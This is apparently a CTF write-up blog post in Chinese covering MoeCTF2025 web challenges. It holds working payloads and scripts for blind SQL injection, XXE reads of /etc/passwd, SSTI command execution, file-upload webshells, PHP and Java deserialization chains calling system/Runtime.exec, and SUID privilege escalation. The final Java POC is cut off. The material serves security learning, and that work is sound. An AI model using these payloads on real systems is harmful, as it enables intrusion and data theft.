---
title: "MoeCTF2025web题解"
date: 2025-09-21T09:28:09+08:00
summary: "MoeCTF2025web题解"
url: "/posts/MoeCTF2025web题解(已做完)/"
categories:
  - "赛题wp"
tags:
  - "LitCTF2025"
draft: false
---

## **0 Web入门指北**

附件是JSFuck字符串，并且也提示了控制台，直接f12放控制台看一下输出



## **01 第一章 神秘的手镯**

### #前端JS

在源码中看到有zhouyu.js文件



注意到两行代码

```javascript
document.getElementById('unsealButton').addEventListener('click', validatePassword);
document.getElementById('passwordInput').addEventListener('paste', handlePaste);
```

第一个是unsealButton启封手镯按钮的点击事件，对应validatePassword函数处理；第二个是用户在passwordInput输入框里按 Ctrl+V 或右键粘贴事件，对应handlePaste函数处理



可以看到只需要传入PASSWORD就可以拿到flag，但是这里js源码中直接放了flag，直接交就行

正常解的话需要抓包传值，因为前端js禁用了粘贴功能。

## **01 第一章 神秘的手镯_revenge**

### #备份文件泄露



提示有备份文件，那得扫一下目录了，但是一直没扫出来

## **02 第二章 初识金曦玄轨**

### #响应报文

提示抓包了就直接抓来看看吧





## **03 第三章 问剑石！篡天改命！**

### #HTTP传参

题目描述里写了要改参数

抓包改一下参数

```http
POST /test_talent?level=S HTTP/1.1
Host: 127.0.0.1:36139
Content-Length: 40
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua: "Chromium";v="139", "Not;A=Brand";v="99"
Content-Type: application/json
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:36139
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:36139/
Accept-Encoding: gzip, deflate, br
Cookie: session-name=MTc1ODA5MzA4MnxEWDhFQVFMX2dBQUJFQUVRQUFBal80QUFBUVp6ZEhKcGJtY01CZ0FFYm1GdFpRWnpkSEpwYm1jTUJ3QUZZV1J0YVc0PXzFSUaBbGBEsxTg77L_c8gMK1zVAt1vaRY5vmZgdMIURg==
Connection: keep-alive

{"manifestation":"flowing_azure_clouds"}
```

## **04 第四章 金曦破禁与七绝傀儡阵**

### #HTTP请求

*提示：使用Burp Suite、Postman等工具修改HTTP请求*

第一关：使用GET方法传递参数 key=xdsec

第二关：使用POST方法请求数据：declaration=织云阁=第一

第三关：请从本地访问这个页面，伪造一下请求头`X-Forwarded-For`为127.0.0.1

第四关：使用moe browser访问，伪造请求头`User-Agent`为moe browser

第五关：需要以xt的身份认证user，添加cookie键值对user=xt

第六关：从http://panshi/entry来，伪造请求头Referer为http://panshi/entry

第七关：使用PUT方法，请求体为"新生！"，这个得用postman去发包了



最后合成碎片是一串base64编码，解出来就是flag了

```http
bW9lY3Rme0MwbjZyNDd1MTQ3MTBuNV95MHVyX2g3N1BfbDN2M2xfMTVfcjM0bGx5X2gxOWghfQ==
```

## **05 第五章 打上门来！**

### #目录穿越

省流：CTF中有一招在文件目录中穿梭的技法，是什么呢？

看来是考目录穿越啊，传入`../../../etc/passwd`发现能成功读到，那就直接读flag

```html
?fle=../../../flag
```

## **06 第六章 藏经禁制？玄机初探！**

### #SQL注入万能密码

省流：一个登录页面。（不告诉我账号密码就让我登录，~~难道我是神仙吗哈哈？~~）

弱口令？一开始在源码的提示词中找到几个神识印记和心法密咒，但是都没成功，后面在题目描述中看到了提示是打SQL注入

万能密码就能直接打



## **07 第七章 灵蛛探穴与阴阳双生符**

### #robots文件+md5碰撞

省流：有这样一个文件，它是一个存放在网站根目录下的纯文本文件，用于告知搜索引擎**爬虫**哪些页面可以抓取，哪些页面不应被抓取。它是网站与搜索引擎之间的 “协议”，帮助网站管理爬虫的访问行为，保护隐私内容、节省服务器资源或引导爬虫优先抓取重要页面。

提示很明显了，是robots.txt，访问/robots.txt拿到/flag.php

```php
<?php
highlight_file(__FILE__);
$flag = getenv('FLAG');

$a = $_GET["a"] ?? "";
$b = $_GET["b"] ?? "";

if($a == $b){
    die("error 1");
}

if(md5($a) != md5($b)){
    die("error 2");
}

echo $flag; error 1
```

md5碰撞嘛，直接打就行

```html
?a=240610708&b=QNKCDZO
```

## **08 第八章 天衍真言，星图显圣**

### #SQL注入盲注

省流：和上次一样的界面，那我再登录一次就行了……吗？

这次万能密码登录进去只拿到一个admin，但是是可以打盲注的

```mysql
admin' and if(1=1,1,0)#
1
回显Welcome admin

admin' and if(1=2,1,0)#
1
回显登录失败，请检查神识印记与心法密咒
```

直接写个脚本吧

```python
import requests

url = "http://127.0.0.1:58535/"
i = 0
target = ""

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) // 2
        #payload = f"admin' and if(ascii(substr((select database()),{i},1))>{mid},1,0)#"
        #payload = f"admin' and if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{i},1))>{mid},1,0)#"
        #payload = f"admin' and if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='flag'),{i},1))>{mid},1,0)#"
        payload = f"admin' and if(ascii(substr((select value from user.flag),{i},1))>{mid},1,0)#"
        params = {
            "username" : payload,
            "password" : "1",
        }
        print(payload)

        r = requests.get(url=url, params=params)
        if ("admin") in r.text:
            head = mid + 1
        else :
            tail = mid
    if head != 32:
        target += chr(head)
        print(target)
    else:
        break
print(target)
```

## **09 第九章 星墟禁制·天机问路**

### #命令执行

传入会执行ping命令，用分号隔开去打命令执行



## **10 第十章 天机符阵**

### #XXE

省流：flag在flag.txt里

需要传入契约内容，并且写到可以解析，猜测是xxe实体注入读取flag

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [<!ENTITY file SYSTEM "file:///etc/passwd">]>
<root>&file;</root>
```

一开始没打通，后面观察到有这些标签

```html
<阵枢>引魂玉</阵枢>
<解析>未定义</解析>
<输出>未定义</输出>
```

所以把标签改一下改成输出



然后直接读flag就行

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE 输出 [<!ENTITY file SYSTEM "file:///var/www/html/flag.txt">]>
<输出>&file;</输出>
```

## **10 第十章 天机符阵_revenge**

### #XXE过滤

这次file协议好像是被禁用了，但是好像直接传文件名也行？

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE 输出 [
<!ENTITY xxe SYSTEM "/flag.txt">
]>
<输出>&xxe;</输出>
```

## **11 第十一章 千机变·破妄之眼**

### #爆破参数

省流：HDdss看到了 **GET** 参数名由`m,n,o,p,q`这五个字母组成（每个字母出现且仅出现一次），长度正好为 5，虽然不清楚字母的具体顺序，但是他知道**参数名等于参数值**才能进入。

提示很明显了，直接爆破吧



但是不知道为啥在浏览器传参出来是200而不是302

放到bp中放包截获302后的包



访问/find.php文件看到是一个读取文件的口子，但是读不了flag.php显示境界不够，估计是需要编码处理，用filter去打



```http
php://filter/read=convert.base64-encode/resource=flag.php
```

## **12 第十二章 玉魄玄关·破妄**

### #eval函数

```php
<?php
highlight_file(__FILE__);
@eval($_POST['cmd']);
```

我发现出题人特别喜欢把flag放env环境变量里面，刚刚连上蚁剑找不到flag

```php
POST:cmd=system('env');
```

## **13 第十三章 通幽关·灵纹诡影**

### #文件上传RCE

```html
通幽关规则
仅受仙灵之气浸润的「云纹图」可修复玉魄核心（建议扩展名：.jpg）
灵纹尺寸不得大于三寸（30000字节）
灵纹必须包含噬心魔印（十六进制校验码：FFD8FF）
违禁灵纹将触发九幽雷劫，魂飞魄散！
```

限制了文件名后缀和文件大小，并且还检查了十六进制文件头

上传一个jpg后缀的php文件并抓包，在hex中修改文件头为ff d8 ff，将后缀改回php后发包拿到路径/uploads/1.php



然后改一下恶意代码内容就行

## **14 第十四章 御神关·补天玉碑**

### #配置文件上传RCE

省流：Apache有一个特殊文件，是什么呢？

```html
御神关规则
仅受天道认可的「玉碑碎片」可修复守护大阵
玉碑尺寸不得大于三寸（30000字节）
禁止上传攻伐符咒（如.php, .php5, .jsp, .asp等邪道术法）
违禁玉碑将触发九幽雷劫，魂飞魄散！
```

有黑名单过滤，既然是Apache的话，直接传.htaccess配置文件去打吧

先随便传一个文件看看白名单文件名后缀，发现是jpg文件，那配置文件的配置应该是这样的

```htaccess
POST /upload.php HTTP/1.1
Host: 127.0.0.1:41811
Content-Length: 224
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="139", "Not;A=Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://127.0.0.1:41811
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary777cSAzvrol9Smxg
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:41811/
Accept-Encoding: gzip, deflate, br
Cookie: session-name=MTc1ODA5MzA4MnxEWDhFQVFMX2dBQUJFQUVRQUFBal80QUFBUVp6ZEhKcGJtY01CZ0FFYm1GdFpRWnpkSEpwYm1jTUJ3QUZZV1J0YVc0PXzFSUaBbGBEsxTg77L_c8gMK1zVAt1vaRY5vmZgdMIURg==
Connection: keep-alive

------WebKitFormBoundary777cSAzvrol9Smxg
Content-Disposition: form-data; name="jadeStele"; filename=".htaccess"
Content-Type: image/jpeg

AddType application/x-httpd-php .jpg
------WebKitFormBoundary777cSAzvrol9Smxg--

```

然后传一个jpg文件，内容为`<?php phpinfo();?>`，访问发现可以解析，那后面也是正常换恶意代码就行

## **15 第十五章 归真关·竞时净魔**

### #文件上传RCE+条件竞争

省流：图片上传至/uploads

```html
归真关规则
仅受天道认可的「净化符文」可修复玉魄（扩展名：.jpg/.png/.gif）
符文尺寸不得大于三寸（30000字节）
符文上传后将进行「重命名净化」
魔气会快速清除违规符文，请把握时机！
```

这样的话文件会重命名，并且还会清理文件

先测试一下，这次不是前端验证的后缀名，但是对文件内容没有检测，做一个内存马然后打条件竞争吧

做完图片马后放010看一下



然后写个py脚本去进行条件竞争好一点，但是后面发现好像题目理解错了，他是接收上传文件后会移动到uploads目录下，然后再进行的检测，如果检测通过就会重命名文件，否则就会删除文件，既然这样的话那直接传一个php文件，在他移动到uploads目录之后访问他并解析执行命令


## **16 第十六章 昆仑星途**

### #php文件包含

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

include($_GET['file'] . ".php");
```

附件里有一个php.ini配置文件

```ini
[PHP]
allow_url_fopen = On
allow_url_include = On
```

可以打文件包含，直接用data伪协议

```html
?file=data://plain/text,<?php%20phpinfo();?>
```

## **17 第十七章 星骸迷阵·神念重构**

### #php反序列化

```php
<?php
highlight_file(__FILE__);

class A {
    public $a;
    function __destruct() {
        eval($this->a);
    }
}

if(isset($_GET['a'])) {
    unserialize($_GET['a']);
}
```

很简单，直接给poc了

```php
<?php
class A {
    public $a='phpinfo();';
}
$a = new A();
echo(urlencode(serialize($a)));
```

## **18 第十八章 万卷诡阁·功法连环**

### #php反序列化

```php
<?php
highlight_file(__FILE__);

class PersonA {
    private $name;
    function __wakeup() {
        $name=$this->name;
        $name->work();
    }
}

class PersonB {
    public $name;
    function work(){
        $name=$this->name;
        eval($name);
    }

}

if(isset($_GET['person'])) {
    unserialize($_GET['person']);
}
```

POC

```php
<?php
class PersonA {
    public $name;
}

class PersonB {
    public $name;
}
$a = new PersonA();
$a -> name = new PersonB();
$a -> name -> name = 'phpinfo();';
echo(urlencode(serialize($a)));
```

## **19 第十九章 星穹真相·补天归源**

### #php反序列化

```php
<?php
highlight_file(__FILE__);

class Person
{
    public $name;
    public $id;
    public $age;

    public function __invoke($id)
    {
        $name = $this->id;
        $name->name = $id;
        $name->age = $this->name;
    }
}

class PersonA extends Person
{
    public function __destruct()
    {
        $name = $this->name;
        $id = $this->id;
        $age = $this->age;
        $name->$id($age);
    }
}

class PersonB extends Person
{
    public function __set($key, $value)
    {
        $this->name = $value;
    }
}

class PersonC extends Person
{
    public function __Check($age)
    {
        if(str_contains($this->age . $this->name,"flag"))
        {
            die("Hacker!");
        }
        $name = $this->name;
        $name($age);
    }

    public function __wakeup()
    {
        $age = $this->age;
        $name = $this->id;
        $name->age = $age;
        $name($this);
    }
}

if(isset($_GET['person']))
{
    $person = unserialize($_GET['person']);
}
```

先找出口方法，应该就是`__Check`方法，这里的话一开始看有点绕，但是其实每个子类的成员变量都是独立的，即使他们继承于同一个父类

```php
PersonA::__destruct()->PersonC::__Check()
```

看到`__Check`方法

```php
    public function __Check($age)
    {
        if(str_contains($this->age . $this->name,"flag"))
        {
            die("Hacker!");
        }
        $name = $this->name;
        $name($age);
    }
```

这里的话需要注意`$age`和`$this->age`分别代表的是不同的内容，例如我们这里写了poc



可以看到此时age的值是空的，此外需要注意换一下php的环境，`str_contains`是php8新增的函数，用于判断字段中是否包含某个字符串

```php
<?php
class Person
{
    public $name;
    public $id;
    public $age;
}

class PersonA extends Person
{
}

class PersonC extends Person
{

}
#PersonA::__destruct()->PersonC::__Check()
$a = new PersonA();
$a -> name = new PersonC();
$a -> id = "__Check";
$a -> age = "whoami";
$a -> name -> name = "system";
$a -> name -> age = "111";
echo urlencode(serialize($a));
```

这里的话不需要在意`__wakeup()`的问题，因为我们PersonC中的$name并没有赋值为一个对象，所以不会跳到父类的invoke中，而是正常走到`__destruct`

## **19 第十九章_revenge**

### #php反序列化

```php
<?php
highlight_file(__FILE__);

class Person
{
    public $name;
    public $id;
    public $age;
}

class PersonA extends Person
{
    public function __destruct()
    {
        $name = $this->name;
        $id = $this->id;
        $name->$id($this->age);
    }
}

class PersonB extends Person
{
    public function __set($key, $value)
    {
        $this->name = $value;
    }

    public function __invoke($id)
    {
        $name = $this->id;
        $name->name = $id;
        $name->age = $this->name;
    }
}

class PersonC extends Person
{
    public function check($age)
    {
        $name=$this->name;
        if($age == null)
        {
            die("Age can't be empty.");
        }
        else if($name === "system")
        {
            die("Hacker!");
        }
        else
        {
            var_dump($name($age));
        }
    }

    public function __wakeup()
    {
        $name = $this->id;
        $name->age = $this->age;
        $name($this);
    }
}

if(isset($_GET['person']))
{
    $person = unserialize($_GET['person']);
}

```

这次的话还是有变化的，check函数中加了一个对name和age的检测，invoke的话移到PersonB中了，不过打法其实没区别，system的话绕过就行了

```php
<?php
class Person
{
    public $name;
    public $id;
    public $age;
}
class PersonA extends Person
{
}
class PersonB extends Person
{
}
class PersonC extends Person
{
}
#PersonA::__destruct()->PersonC::check()
$a = new PersonA();
$a -> name = new PersonC();
$a -> id = "check";
$a -> age = "whoami";
$a -> name ->name = "passthru";
echo urlencode(serialize($a));

```

## **20 第二十章 幽冥血海·幻语心魔**

### #SSTI无过滤

看到附件有一个templates，猜测是ssti了

```python
from flask import Flask, request, render_template, render_template_string

app = Flask(__name__)

@app.route('/')
def index():
    if 'username' in request.args or 'password' in request.args:
        username = request.args.get('username', '')
        password = request.args.get('password', '')

        if not username or not password:
            login_msg = """
            <div class="login-result" id="result">
                <div class="result-title">阵法反馈</div>
                <div id="result-content"><div class='login-fail'>用户名或密码不能为空</div></div>
            </div>
            """
        else:
            login_msg = render_template_string(f"""
            <div class="login-result" id="result">
                <div class="result-title">阵法反馈</div>
                <div id="result-content"><div class='login-success'>欢迎: {username}</div></div>
            </div>
            """)
    else:
        login_msg = ""

    return render_template("index.html", login_msg=login_msg)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)

```

username直接拼接，直接打ssti吧

```python
?username={{"".__class__.__base__.__subclasses__()[141].__init__.__globals__['__builtins__']['__import__']('os').popen('env').read()}}&password=1
```

## **21 第二十一章 往生漩涡·言灵死局**

### #SSTI+过滤

增加了黑名单

```python
blacklist = ["__", "global", "{{", "}}"]
```

直接绕过就行，不是很难，关键字global和下划线可以用字符串拼接或者编码绕过，而`{{}}`的话用``就行

```http
?username=&password=1
```

## **22 第二十二章 血海核心·千年手段**

### #无回显SSTI+提权

无回显SSTI，参考文章https://www.cnblogs.com/tammy66/articles/18616135#ssti%E6%97%A0%E5%9B%9E%E6%98%BE%E5%A4%84%E7%90%86

```python
/?username={{lipsum.__globals__.__builtins__.setattr(lipsum.__spec__.__init__.__globals__.sys.modules.werkzeug.serving.WSGIRequestHandler,"protocol_version",lipsum.__globals__.__builtins__.__import__('os').popen('whoami').read())}}&password=1
```



```python
/?username={{lipsum.__globals__.__builtins__.setattr(lipsum.__spec__.__init__.__globals__.sys.modules.werkzeug.serving.WSGIRequestHandler,"sys_version",lipsum.__globals__.__builtins__.__import__('os').popen('whoami').read())}}&password=1
```

但是根目录的flag貌似是设置了权限的



需要提权啊？看看SUID位工具

```http
find / -perm -u=s -type f 2>/dev/null
```



用rev也没打出来？https://gtfobins.github.io/gtfobins/rev/

后面问了几个师傅，才知道rev是经过修改的而不是原生的，所以这里需要把rev搞到本地去逆向分析一下，直接创static目录然后复制rev到这里就能访问下载了



```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 1; argc > i + 1; ++i )
  {
    if ( !strcmp("--HDdss", argv[i]) )
      execvp(argv[i + 1], (char *const *)&argv[i + 1]);
  }
  return 0;
}
```

这里的话会从`arg[1]`开始遍历参数，先判断是否有`--HDdss`参数，如果有的话就执行execvp，执行下一个参数对应的程序，并将其后的参数作为参数传递给该程序。

```c
// attributes: thunk
int execvp(const char *file, char *const argv[])
{
  return execvp(file, argv);
}
```

execvp函数接收的是一个程序名加参数，详细的可以去看源码，最后的poc就是

```bash
rev --HDdss cat /flag
```

## **23 第二十三章 幻境迷心·皇陨星沉(大结局)**

### #java反序列化

很感谢infer师傅利用这道题给我讲了怎么去操作和利用附件jar包，我这里也写个大致的流程

jar包丢jadx -> 在文件里面选择全部导出到一个空目录jar（此时会获得sources和resources两个目录文件夹）-> 在sources中把除了源码外的目录删除（这道题里面是com目录为源码目录），然后在com目录中还有一个非源码目录，也删掉 -> 进入resources\BOOT-INF把lib目录移动到resources目录 -> 将整个jar目录用idea打开 -> 将sources目录标记为源代码根目录，将resources/lib目录添加为库

然后就可以啦

回归做题，我们先看看控制器

```java
package com.example.demo.controller;

import com.example.demo.Dog.Dog;
import com.example.demo.Dog.DogService;
import java.util.List;
import org.springframework.web.bind.annotation.DeleteMapping;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PathVariable;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;

@RequestMapping({"/dogs"})
@RestController
/* loaded from: demo.jar:BOOT-INF/classes/com/example/demo/controller/DogController.class */
public class DogController {
    private final DogService dogService;

    public DogController(DogService dogService) {
        this.dogService = dogService;
    }

    @GetMapping
    public List<Dog> getAllDogs() {
        return this.dogService.getAllDogs();
    }

    @PostMapping
    public Dog addDog(@RequestParam String name, @RequestParam String breed, @RequestParam int age) {
        return this.dogService.addDog(name, breed, age);
    }

    @PostMapping({"/{id}/feed"})
    public Dog feedDog(@PathVariable int id) {
        return this.dogService.feedDog(id);
    }

    @DeleteMapping({"/{id}"})
    public Dog removeDog(@PathVariable int id) {
        return this.dogService.removeDog(id);
    }

    @GetMapping({"/export"})
    public String exportDogs() {
        return this.dogService.exportDogsBase64();
    }

    @PostMapping({"/import"})
    public String importDogs(@RequestParam("data") String base64Data) {
        this.dogService.importDogsBase64(base64Data);
        return "导入成功！";
    }
}
```

`DogService` 是业务逻辑层，用来处理狗狗相关的操作。

然后看看com/example/demo/Dog/DogService.java逻辑处理函数

```java
package com.example.demo.Dog;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.util.ArrayList;
import java.util.Base64;
import java.util.Collection;
import java.util.HashMap;
import java.util.List;
import java.util.Map;
import org.springframework.stereotype.Service;

@Service
/* loaded from: demo.jar:BOOT-INF/classes/com/example/demo/Dog/DogService.class */
public class DogService implements Serializable {
    private Map<Integer, Dog> dogs = new HashMap();
    private int nextId = 1;

    public List<Dog> getAllDogs() {
        return new ArrayList(this.dogs.values());
    }

    public Dog addDog(String name, String breed, int age) {
        int i = this.nextId;
        this.nextId = i + 1;
        Dog dog = new Dog(i, name, breed, age);
        this.dogs.put(Integer.valueOf(dog.getId()), dog);
        return dog;
    }

    public Dog feedDog(int id) {
        Dog dog = this.dogs.get(Integer.valueOf(id));
        if (dog != null) {
            dog.feed();
        }
        return dog;
    }

    public Dog removeDog(int id) {
        return this.dogs.remove(Integer.valueOf(id));
    }

    public Object chainWagTail() {
        Object input = null;
        for (Dog dog : this.dogs.values()) {
            if (input == null) {
                input = dog.object;
            }
            Object result = dog.wagTail(input, dog.methodName, dog.paramTypes, dog.args);
            input = result;
        }
        return input;
    }

    public String exportDogsBase64() {
        try {
            ByteArrayOutputStream baos = new ByteArrayOutputStream();
            Throwable th = null;
            try {
                ObjectOutputStream oos = new ObjectOutputStream(baos);
                Throwable th2 = null;
                try {
                    try {
                        oos.writeObject(new ArrayList(this.dogs.values()));
                        oos.flush();
                        String encodeToString = Base64.getEncoder().encodeToString(baos.toByteArray());
                        if (oos != null) {
                            if (0 != 0) {
                                try {
                                    oos.close();
                                } catch (Throwable th3) {
                                    th2.addSuppressed(th3);
                                }
                            } else {
                                oos.close();
                            }
                        }
                        return encodeToString;
                    } catch (Throwable th4) {
                        if (oos != null) {
                            if (th2 != null) {
                                try {
                                    oos.close();
                                } catch (Throwable th5) {
                                    th2.addSuppressed(th5);
                                }
                            } else {
                                oos.close();
                            }
                        }
                        throw th4;
                    }
                } finally {
                }
            } finally {
                if (baos != null) {
                    if (0 != 0) {
                        try {
                            baos.close();
                        } catch (Throwable th6) {
                            th.addSuppressed(th6);
                        }
                    } else {
                        baos.close();
                    }
                }
            }
        } catch (IOException e) {
            e.printStackTrace();
            return "";
        }
    }
    public void importDogsBase64(String base64Data) {
        try {
            try {
                ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(Base64.getDecoder().decode(base64Data));
                Throwable th = null;
                ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
                Throwable th2 = null;
                try {
                    try {
                        for (Dog dog : (Collection) objectInputStream.readObject()) {
                            int i = this.nextId;
                            this.nextId = i + 1;
                            dog.setId(i);
                            this.dogs.put(Integer.valueOf(dog.getId()), dog);
                        }
                        if (objectInputStream != null) {
                            if (0 != 0) {
                                try {
                                    objectInputStream.close();
                                } catch (Throwable th3) {
                                    th2.addSuppressed(th3);
                                }
                            } else {
                                objectInputStream.close();
                            }
                        }
                        if (byteArrayInputStream != null) {
                            if (0 != 0) {
                                try {
                                    byteArrayInputStream.close();
                                } catch (Throwable th4) {
                                    th.addSuppressed(th4);
                                }
                            } else {
                                byteArrayInputStream.close();
                            }
                        }
                    } catch (Throwable th5) {
                        if (objectInputStream != null) {
                            if (th2 != null) {
                                try {
                                    objectInputStream.close();
                                } catch (Throwable th6) {
                                    th2.addSuppressed(th6);
                                }
                            } else {
                                objectInputStream.close();
                            }
                        }
                        throw th5;
                    }
                } catch (Throwable th7) {
                    th2 = th7;
                    throw th7;
                }
            } finally {
            }
        } catch (IOException | ClassNotFoundException e) {
            e.printStackTrace();
        }
    }
}
```

最后的exportDogsBase64和importDogsBase64

exportDogsBase64是标准的数组序列化+base64编码操作，importDogsBase64是将base64编码解码并反序列化后遍历集合里的每一只狗对象然后放入dogs中

在里面有一个chainWagTail方法

```java
    public Object chainWagTail() {
        Object input = null;
        for (Dog dog : this.dogs.values()) {
            if (input == null) {
                input = dog.object;
            }
            Object result = dog.wagTail(input, dog.methodName, dog.paramTypes, dog.args);
            input = result;
        }
        return input;
    }
```

看起来像是一个任意方法调用的操作，跟进wagTail

```java
    default Object wagTail(Object input, String methodName, Class[] paramTypes, Object[] args) {
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(methodName, paramTypes);
            return method.invoke(input, args);
        } catch (Exception e) {
            e.printStackTrace();
            return null;
        }
    }
```

很明显这里是一个方法调用的函数，利用反射去获取并调用其原型类的方法

可以说wagTail相当于是InvokerTransformer#transform，而chainWagTail相当于是ChainedTransformer#transform

但是这里的属性需要反射去赋值

这样的话可以参考CC1中的构造

```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class}, new Object[]{null,null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
```

写出我们在这里的poc

```java
String cmd = "calc.exe";

        //参考CC1
        //实例化Runtime对象并调用exec方法执行命令
//        Transformer[] transformers = new Transformer[]{
//                new ConstantTransformer(Runtime.class),
//                new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
//                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class}, new Object[]{null,null}),
//                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
//                };
        //定义多个dog对象进行链式调用
        Dog dog1 = new Dog(1,"wanth3f1ag","yellow",1);
        Dog dog2 = new Dog(2,"wanth3f1ag","yellow",1);
        Dog dog3 = new Dog(3,"wanth3f1ag","yellow",1);
        Dog dog4 = new Dog(4,"wanth3f1ag","yellow",1);

        //调用链
        Class runtime = Class.forName("java.lang.Runtime");

        //step1：获取Runtime原型类
        setFieldValue(dog1,"object",runtime);
        setFieldValue(dog1,"methodName","forName");
        setFieldValue(dog1,"paramTypes",new Class[]{String.class});
        setFieldValue(dog1,"args",new Object[]{"java.lang.Runtime"});

        //step2：获取getDeclaredMethod调用getRuntime实例化Runtime对象
        setFieldValue(dog2,"methodName","getDeclaredMethod");
        setFieldValue(dog2,"paramTypes",new Class[]{String.class, Class[].class});
        setFieldValue(dog2,"args",new Object[]{"getRuntime",null});

        //step3：获取invoke函数
        setFieldValue(dog3,"methodName","invoke");
        setFieldValue(dog3,"paramTypes",new Class[]{Object.class,Object[].class});
        setFieldValue(dog3,"args",new Object[]{runtime,null});

        //step4：
        setFieldValue(dog3,"methodName","exec");
        setFieldValue(dog3,"paramTypes",new Class[]{String.class});
        setFieldValue(dog3,"args",new Object[]{cmd});
```

然后需要放入dogs集合中

```java
        //放入dogService的dogs中
        DogService dogService = new DogService();
        setFieldValue(dogService,"dogs",dogs);
```

接下来就是如何触发chainWagTail

在com/example/demo/Dog/Dog.java中

```java
public int hashCode() {
    wagTail(this.object, this.methodName, this.paramTypes, this.args);
    return Objects.hash(Integer.valueOf(this.id));
}
```

这里可以利用hashCode去触发一下chainWagTail，然后就是找哪里能调用hashCode方法，让我想到CC6中的HashMap#hash()去调用hashCode

关注到这里有一个put方法，并且put方法是能触发hashMap#hash的



所以最后的POC是

### 最终POC

```java
package com.example.demo;

import com.example.demo.Dog.Dog;
import com.example.demo.Dog.DogService;
import com.sun.xml.internal.messaging.saaj.util.ByteOutputStream;
import org.apache.tomcat.util.codec.binary.Base64;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class Test {
    public static void main(String[] args) throws Exception {

        String cmd = "calc";

        //参考CC1
        //实例化Runtime对象并调用exec方法执行命令
//        Transformer[] transformers = new Transformer[]{
//                new ConstantTransformer(Runtime.class),
//                new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
//                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class}, new Object[]{null,null}),
//                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
//                };
        //定义多个dog对象进行链式调用
        Dog dog1 = new Dog(1,"wanth3f1ag","yellow",1);
        Dog dog2 = new Dog(2,"wanth3f1ag","yellow",1);
        Dog dog3 = new Dog(3,"wanth3f1ag","yellow",1);
        Dog dog4 = new Dog(4,"wanth3f1ag","yellow",1);

        //调用链
        Class runtime = Class.forName("java.lang.Runtime");

        //step1：获取Runtime原型类
        setFieldValue(dog1,"object",runtime);
        setFieldValue(dog1,"methodName","forName");
        setFieldValue(dog1,"paramTypes",new Class[]{String.class});
        setFieldValue(dog1,"args",new Object[]{"java.lang.Runtime"});

        //step2：获取getDeclaredMethod调用getRuntime实例化Runtime对象
        setFieldValue(dog2,"methodName","getDeclaredMethod");
        setFieldValue(dog2,"paramTypes",new Class[]{String.class, Class[].class});
        setFieldValue(dog2,"args",new Object[]{"getRuntime",null});

        //step3：获取invoke函数
        setFieldValue(dog3,"methodName","invoke");
        setFieldValue(dog3,"paramTypes",new Class[]{Object.class,Object[].class});
        setFieldValue(dog3,"args",new Object[]{runtime,null});

        //step4：
        setFieldValue(dog4,"methodName","exec");
        setFieldValue(dog4,"paramTypes",new Class[]{String.class});
        setFieldValue(dog4,"args",new Object[]{cmd});

        //构造Map类型的dogs对象集合
        Map<Integer, Dog> dogs = new HashMap();
        dogs.put(1,dog1);
        dogs.put(2,dog2);
        dogs.put(3,dog3);
        dogs.put(4,dog4);

        //放入dogService的dogs中
        DogService dogService = new DogService();
        setFieldValue(dogService,"dogs",dogs);

        //调用链触发dogService#chainWagTail()
        Dog dog5=new Dog(5,"wanth3f1ag","yellow",1);
        setFieldValue(dog5,"object",dogService);
        setFieldValue(dog5,"methodName","chainWagTail");
        setFieldValue(dog5,"paramTypes",new Class[]{});
